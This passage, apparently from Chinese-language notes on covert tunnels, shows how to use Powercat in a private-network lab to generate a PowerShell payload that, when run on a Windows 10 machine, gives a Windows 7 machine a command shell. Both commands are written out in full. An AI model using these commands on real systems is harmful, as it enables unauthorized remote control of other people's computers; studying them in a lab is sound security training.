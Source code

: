 （6）用Powercat生成Payload反弹shell

用Powercat生成的Payload也有正向和反向之分，且可以对其编码。

尝试生成一个简单的Payload，在Win7中执行如下命令：

```
powercat -l -p 8000 -e cmd -v -g >> shell.ps1
```

![](./img/隐藏通信隧道基础知识/57.png)

然后把shell.ps1上传给Win10，并运行，之后Win7执行命令成功反弹shell：

```
powercat -c 192.168.2.4 -p 8000 -v
```
